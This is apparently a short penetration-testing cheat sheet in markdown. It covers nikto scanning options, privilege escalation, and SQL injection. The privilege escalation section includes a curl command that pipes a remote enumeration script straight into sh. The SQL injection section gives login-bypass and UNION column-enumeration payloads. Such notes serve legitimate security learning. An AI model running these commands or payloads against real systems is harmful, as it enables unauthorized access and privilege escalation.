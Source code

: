 ### Vulnerable Hosts
```
nikto
```
>nikto -h 10.10.10.10 -p 80,8000,8080
enumerates on ports 80,8000 etc, 
>nmap -p80 172.16.0.0/24 -oG - | nikto -h -
takes the results of the nmap scan, formats them to a nikto friendly format (-oG), then pipes to nikto
>nikto --list plugins
lists useful plugins that are apropriate for the target
>nikto -h 10.10.10.1 -Plugin apacheuser
uses "apacheuser" plugin
>nikto -h 10.10.10.1 -Display 1,2,E
can display 1,2 or E mode (redirects, cookies and errors)
>nikto -h 10.10.10.1 -Tuning (0-9)
Tuning options to find certain vulnerability types
>nikto -h 10.10.10.1 -o NiktoReport.html
can output to certain filetypes like html or txt



# Priveledge Escalation

```
sudo -l
```

>shows current users permissions

first ssh into ip THEN
```
curl https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh | sh
```

#  SQL Injection

### In Band Authentication bypass
```
' OR 1=1;--
or
email@email.com' --  
```
Returns a 'TRUE' value for login
e.g. this turns this query
```SQL
select * from users 
where username='%username%' and password='%password%' 
LIMIT 1;
```
into this query
```SQL
select * from users 
where username='' and password='' 
OR 1=1;
--' LIMIT 1;
```
### Boolean Return
```
' UNION SELECT 1;--
' UNION SELECT 1,2;--
' UNION SELECT 1,2,3;--
```
enumerates the correct number of columns in the query table